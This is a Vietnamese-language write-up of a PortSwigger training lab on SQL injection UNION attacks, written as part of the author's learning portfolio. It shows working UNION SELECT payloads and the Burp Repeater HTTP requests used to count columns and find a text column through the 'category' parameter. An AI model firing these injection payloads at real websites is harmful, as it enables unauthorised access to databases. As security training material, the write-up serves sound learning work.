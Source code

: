 # Write-up: SQL injection UNION attack, finding a column containing text

### Tổng quan
Ghi lại quá trình khai thác SQLi để xác định cột có kiểu dữ liệu trả về là string của truy vấn.

### Mục tiêu
Xác định cột có kiểu dữ liệu trả về là string.

### các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm dấu `'` để kích hoạt lỗi SQL
  - **Kết quả**: xuất hiện lỗi SQL, xác nhận lỗ hổng
    ![lỗi](./images/error.png)

2. **Tạo payload**
- Tạo payload kiểu tấn công UNION để xác định số cột
    ```
    'UNION SELECT NULL, NULL, NULL--
    ```

- Tạo payload kiểu tấn công UNION để xác định cột trả về dữ liệu string 
    ```
    'UNION SELECT NULL, 'UAgnzM', NULL--
    ```

3. **Khai thác (Exploitation)**
- Gửi payload qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+NULL,+NULL,+NULL-- HTTP/2
    ```

- Gửi payload qua Burp Repeater:
    ```
    GET /filter?category=Gifts'UNION+SELECT+NULL,+'UAgnzM',+NULL-- HTTP/2
    ```
    - **Kết quả**: xác nhận cột có kiểu string 
        ![string](./images/string.png)

### Bài học rút ra
- Xác định sốt cột và kiểu dữ liệu trả về của truy vấn là bước đầu tiên và quan trọng trong khai thác SQLi

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.
